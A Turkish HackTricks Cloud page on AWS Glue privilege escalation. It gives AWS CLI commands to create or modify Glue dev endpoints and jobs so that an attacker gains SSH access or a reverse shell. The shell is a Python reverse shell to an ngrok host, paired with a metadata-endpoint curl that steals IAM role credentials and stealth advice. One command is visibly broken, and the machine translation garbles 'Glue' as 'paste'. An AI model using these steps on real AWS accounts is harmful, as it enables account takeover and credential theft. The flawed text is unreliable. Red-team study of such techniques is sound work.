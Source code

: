 # AWS - Glue Privilege Escalation

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahramana kadar AWS hacklemeyi öğrenin!</summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family'yi**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 **Discord grubuna** [**katılın**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'da takip edin**.
* **Hacking püf noktalarınızı paylaşarak PR göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Bu izinlere sahip kullanıcılar **yeni bir AWS Glue geliştirme ucu noktası kurabilir** ve bu ucu noktaya belirli izinlere sahip Glue tarafından alınabilir olan mevcut bir hizmet rolü atayabilir.

Kurulumdan sonra **saldırgan ucu noktanın örneğine SSH ile bağlanabilir** ve atanan rolün IAM kimlik bilgilerini çalabilir:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
Gizlilik amacıyla, Glue sanal makinesi içinden IAM kimlik bilgilerini kullanmanız önerilir.

**Potansiyel Etki:** Belirtilen yapıştırma hizmeti rolüne yükseltme.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Bu izne sahip kullanıcılar, **mevcut bir Glue geliştirme** ucu noktasının SSH anahtarını **değiştirebilir ve buna SSH erişimini etkinleştirebilir**. Bu, saldırganın ucu noktaya bağlı rolün ayrıcalıklarıyla komutları yürütmesine olanak tanır:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Potansiyel Etki:** Kullanılan yapıştırma servisi rolüne ayrıcalık yükseltilmesi.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

**`iam:PassRole`** izni olan kullanıcılar, **`glue:CreateJob` veya `glue:UpdateJob`** ile birlikte ve **`glue:StartJobRun` veya `glue:CreateTrigger`** ile birlikte kombinlendiğinde bir AWS Glue işi **oluşturabilir veya güncelleştirebilir**, herhangi bir **Glue servis hesabını** ekleyebilir ve işin yürütülmesini başlatabilir. İşin yetenekleri arasında keyfi Python kodu çalıştırma bulunmaktadır, bu da ters kabuk oluşturmak için sömürülebilir. Bu ters kabuk daha sonra Glue işine bağlı rolün **IAM kimlik bilgilerini** dışa aktarmak için kullanılabilir, bu da o rolün izinlerine dayalı potansiyel yetkisiz erişim veya işlemlere yol açabilir:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Potansiyel Etki:** Belirtilen yapıştırma servisi rolüne ayrıcalık yükseltme.

### `glue:UpdateJob`

Sadece güncelleme izni ile bir saldırgan, zaten eklenmiş rolün IAM Kimlik bilgilerini çalabilir.

**Potansiyel Etki:** Eklenmiş yapıştırma servisi rolüne ayrıcalık yükseltme.

## Referanslar

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>Sıfırdan kahraman olana kadar AWS hacklemeyi öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**]'na göz atın (https://github.com/sponsors/carlospolop)!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

